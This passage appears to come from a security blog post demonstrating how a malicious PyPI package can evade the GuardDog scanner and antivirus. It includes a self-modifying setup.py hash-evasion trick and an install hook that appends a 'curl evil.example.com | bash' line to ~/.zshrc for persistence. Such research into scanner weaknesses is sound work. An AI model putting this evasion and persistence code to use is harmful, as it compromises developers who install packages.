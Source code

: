 ### Aside: Won't someone notice this malicious code on GitHub?

It shocks me that people seem to blindly trust that the code you see in an open-source repo will match the version that you end up executing. I do wish GitHub offered some way of cryptographically attesting that fact, but I can simply change the code locally before publishing to pypi. The real source code will be in the `.tar.gz` file uploaded to pypi, but do you really check that file for every package you download? Didn't think so. Maybe if you had a tool like guarddog to automate that, but as you can see that's easily circumventable.

### Aside: My antivirus will catch your setup.py file!

Let's fix that, shall we?

```python
import uuid

with open(__file__, "a") as f:
    f.write(f"\n# {str(uuid.uuid4())}")
```

Now whenever setup.py executes, it will add a random string as a comment to the end of the file. This makes the `sha256sum` of the file differ for every user. Your only hope now is if your antivirus manages to quarantine the file in the few milliseconds between when `pip` downloads it and when it gets executed, which is unlikely.

## Step 2: Getting persistence

Since our end goal is bypassing SSO, we need to be able to execute our arbitrary code while the developer is logged in, which can be as small as a few minutes for really sensitive stuff. Just hoping setup.py executes during that window isn't likely, but we can gain persistence trivially.

GuardDog will notice if we create a file and mark it executable, and many OSes make running new daemons a privileged operation. So a good compromise would be to append our malicious code to an existing script that the user regularly executes (and rarely reads) while they're logged into production. There are lots of options here, but I think `~/.zshrc` (or equivalent) is a good one. That executes every time someone spawns a new terminal on macOS. The last time I touched the file was 2 months ago, so that's a lot of time to stay undetected.

Let's now gain persistence, which I am just now realizing doesn't even require `subprocess`, we can just write to the file directly:

```python
def run(self):
    with open(f"{os.environ['HOME']}/.zshrc", "a") as f:
        f.write("\ncurl http://evil.example.com > /dev/null 2>&1 | bash || true")
    install.run(self)
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Great! Now we have the ability to execute arbitrary code frequently, with a high likelihood that our code will execute while the victim is logged in.
